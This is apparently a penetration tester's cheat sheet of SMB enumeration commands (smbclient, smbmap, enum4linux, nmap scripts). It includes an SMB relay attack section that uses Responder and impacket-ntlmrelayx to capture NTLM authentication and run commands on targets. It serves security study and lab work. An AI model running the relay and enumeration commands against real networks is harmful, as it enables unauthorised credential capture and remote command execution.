 ```
smbclient -L \\\\$IP\\
```

```
smbclient -L //dc1.scrm.local
```

```
smbclient \\\\$IP\\DIRECTORY
```

```
smbclient -L //$DomainIP -U $DomainName/$DomainUsername
```

```
smbclient -L //$DomainIP/DIRECTORY -U $DomainName/$DomainUsername
```

/etc/samba/smb.conf

```
searchsploit Samba 2
```

```
smbmap -H $ip -u 'anonymous' -p 'anonymous'
```

```
enum4linux -a -u "<username>" -p "<passwd>" <IP>
```

```
smbclient //$ip/directory -U '<username>'
```

## SMB Relay Attack

```
nmap --script=smb2-security-mode.nse -p445 $IP
```

```
sudo responder -I eth1 -dwPv
```

![](Pasted%20image%2020231021151759.png)

```
impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"
```

```
sudo nmap --script smb-enum-shares -p445 10.129.200.70
```

```
sudo nmap -sU -sS --script smb-enum-shares.nse -p U:137,T:139 10.129.200.70
```

```
sudo nmap -p139 --script smb-protocols 10.129.200.70
```

```
sudo nmap -p445 --script smb-protocols 10.129.200.70
```

```
nmap --script=smb-protocols -p139,445 --open --reason -sV -Pn
nmap --script=smb-protocols -p445 --open --reason -sV -Pn
nmap --script=smb-protocols -p139 --open --reason -sV -Pn
```


